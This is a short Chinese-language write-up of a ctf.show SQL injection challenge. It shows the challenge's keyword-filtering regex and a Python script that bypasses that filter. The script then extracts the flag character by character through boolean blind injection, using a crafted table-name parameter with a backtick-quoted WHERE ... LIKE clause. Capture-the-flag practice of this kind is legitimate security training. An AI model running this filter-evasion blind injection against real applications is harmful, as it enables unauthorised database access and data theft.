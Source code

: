 # 知识点
注入位置是from后表名<br />且返回值wei用户表的记录总数
# 思路
```plsql
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
```
```plsql
//返回用户表的记录总数
      $user_count = 0;
      
```
我可以通控制like后的字符串来进行盲注
```plsql
import requests

str = '0123456789abcdef-}'
url = 'http://27493a9e-bc79-4f61-9d92-ad9665f75f32.challenge.ctf.show/select-waf.php'
flag = 'ctfshow{'
for l in range(0, 38):
    for i in str:
        data = {
            'tableName': f"`ctfshow_user`where`pass`like'%{flag+i}%'"
        }
        r = requests.post(url=url, data=data).text
        if r[2547:2548] == '1':
            flag += i
            print(flag)
            break
```
![image.png](./images/20231017_2351381228.png)

